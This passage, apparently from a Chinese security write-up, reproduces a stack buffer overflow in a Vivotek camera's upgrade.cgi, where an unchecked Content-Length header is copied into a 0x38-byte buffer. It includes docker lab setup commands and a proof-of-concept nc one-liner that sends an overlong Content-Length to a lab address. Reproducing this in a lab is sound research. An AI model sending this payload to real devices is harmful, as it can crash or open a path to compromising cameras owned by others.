 解释下逻辑：

截取 Content-Length 的字符串然后用 strncpy 放到 dest 中，但是并没有对字符串做长度检测

我们看看 dest 变量和栈底的距离

[![](assets/1706959011-977937a3052549d896731713f96c1b8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170030-5b0bea10-bc29-1.png)

只有 0x38 大小，那肯定能进行栈溢出了

所以我们启动容器，测试漏洞原作者给的 payload

```bash
#启动系统环境
docker compose -f docker-compose-system.yml up
#启动用户环境
docker-compose -f docker-compose-user.yml up
# 等待启动完成，重新打开一个窗口
docker exec -it vivotek-system /bin/bash
```

```bash
#连接测试用户端口
root@6f747349c6c3:~# nc -v 192.168.2.2 80
192.168.2.2 [192.168.2.2] 80 (http) open
#或是浏览器输入 URL：127.0.0.1:8888
```

[![](assets/1706959011-10820ee7a02daf7e9a20191b3075989c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170034-5da21c86-bc29-1.png)

```bash
#在新窗口中输入 poc
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 192.168.2.2 80
```

[![](assets/1706959011-271ab72561bf306b72e7ce07276776e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170023-56d452e8-bc29-1.png)
